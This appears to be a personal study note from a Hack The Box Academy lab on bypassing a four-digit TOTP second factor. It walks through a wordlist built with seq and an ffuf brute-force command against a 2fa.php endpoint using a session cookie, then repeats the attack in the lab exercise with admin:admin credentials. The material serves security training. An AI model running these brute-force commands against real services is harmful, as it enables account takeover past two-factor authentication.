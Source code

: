 As we can see, the TOTP is passed in the `otp` POST parameter. Furthermore, we need to specify our session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from `0000` to `9999` like so:

```shell
gitblanc@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the `Invalid 2FA Code` error message:

```shell
gitblanc@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since `6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to `/admin.php`. To access the protected page, we can simply access the endpoint `/admin.php` in the web browser and see that we successfully passed 2FA.

>[!Example]
>The Academy's exercise for this section

With `admin:admin` we get the following 2FA page:

![](Pasted%20image%2020250314105550.png)

As it says it's a four digit code, we can brute force it by generating a wordlist and then trying it with **ffuf**:

```shell
seq -w 0 9999 > tokens.txt

ffuf -w ./tokens.txt -u http://94.237.55.96:51308/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=au8nm6kethu78o6kqkge9ti5g3" -d "otp=FUZZ" -fr "Invalid 2FA Code"

[redacted]
0028
```

![](Pasted%20image%2020250314105846.png)
